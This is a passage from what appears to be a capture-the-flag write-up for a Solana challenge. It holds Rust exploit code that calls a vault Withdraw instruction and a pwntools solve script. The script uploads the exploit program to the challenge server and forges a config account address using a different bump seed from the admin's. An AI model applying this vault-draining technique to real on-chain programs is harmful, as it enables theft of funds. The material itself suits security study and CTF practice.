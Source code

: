         invoke(
            &Instruction {
                program_id: *chall_id.key,
                data: TribunalInstruction::Withdraw{amount: 95_000_000_000}.try_to_vec().unwrap(),
                accounts: vec![
                    AccountMeta::new(*user.key, true),
                    AccountMeta::new(*user_config.key, false),
                    AccountMeta::new(*vault.key, false),
                    AccountMeta::new_readonly(system_program::id(), false),
                ]
            },
            &[
                user.clone(),
                vault.clone(),
                user_config.clone(),
            ]
        )?;

        Ok(())
    }
    ```

!!! note "solve.py"

    ```py
    from pwn import *
    from solana.publickey import PublicKey
    from solana.system_program import SYS_PROGRAM_ID

    account_metas = [
        ("program", "-r"), # readonly
        ("user", "sw"), # signer + writable
        ("user_config", "-w"),
        ("user_vault", "-w"),
        ("proposal", "-w"),
        ("vault", "-w"),
        ("system program", "-r"),
    ]
    instruction_data = b""

    p = remote("be.ax", 30555)

    with open("solve/target/deploy/solve.so", "rb") as f:
        solve = f.read()

    p.sendlineafter(b"program pubkey: \n", str(PublicKey(b'1' * 32)).encode())
    p.sendlineafter(b"program len: \n", str(len(solve)).encode())
    p.send(solve)

    accounts = {}
    accounts["program"] = p.recvline_contains(b"program: ").strip().split(b": ")[-1].decode()
    accounts["user"] = p.recvline_contains(b"user: ").strip().split(b": ")[-1].decode()

    accounts["system program"] = SYS_PROGRAM_ID.to_base58().decode()

    program_id = PublicKey(accounts["program"])
    config_addr = PublicKey.create_program_address([b"CONFIG", b'\xfc'], program_id) # use a different bump seed from admin
    accounts["user_config"] = config_addr.to_base58().decode()
